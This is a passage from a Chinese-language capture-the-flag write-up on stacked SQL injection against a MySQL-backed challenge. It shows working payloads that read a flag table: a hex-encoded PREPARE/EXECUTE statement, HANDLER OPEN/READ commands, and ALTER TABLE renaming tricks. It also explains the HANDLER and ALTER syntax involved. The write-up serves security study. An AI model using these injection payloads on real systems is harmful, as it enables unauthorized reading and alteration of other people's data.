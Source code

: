 `1';PREPARE hacker from 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;EXECUTE hacker;#`

基本原理同上

## 方法三：handler 替换 select（仅 MySQL）

`1';HANDLER ` 1919810931114514 `OPEN;HANDLER` 1919810931114514 `READ FIRST;HANDLER` 1919810931114514 ` CLOSE;#` 直接获取 flag

mysql 除可使用 select 查询表中的数据，也可使用 handler 语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过 handler 语句并不具备 select 语句的所有功能，并且是 mysql 专用的语句，并没有包含到 SQL 标准中。

handler 使用格式：

```sql
打开表：
HANDLER 表名 OPEN ;

查看数据：
HANDLER 表名 READ next;

关闭表：
HANDLER 表名 READ CLOSE;
```

本题即先用 handler 打开 `1919810931114514` 表，读取表的第一行数据，然后关闭表

## 方法四：根据原本查询语句的逻辑修改表名和列名（相对取巧）

我们输入 1 后，默认会显示 id 为 1 的数据，可以猜测默认显示的是 words 表的数据，那么只要更改目标表的名称和结构为 words 表、words 表改成其他名称，就可以达到利用原有查询语句直接查询 flag 字段的值的效果

修改表名、添加列的语法格式：

```sql
修改表名：
ALTER TABLE 旧表名 RENAME TO 新表名;

修改字段：
ALTER TABLE 表名 CHANGE 旧字段名 新字段名 新数据类型;

添加列：
alter table TABLE_NAME add column NEW_COLUMN_NAME varchar(255) not null first;
```

查看 words 表结构 `1';desc words;#` 总共两个字段 id 和 data，推测应该是输入 id 给出对应 data
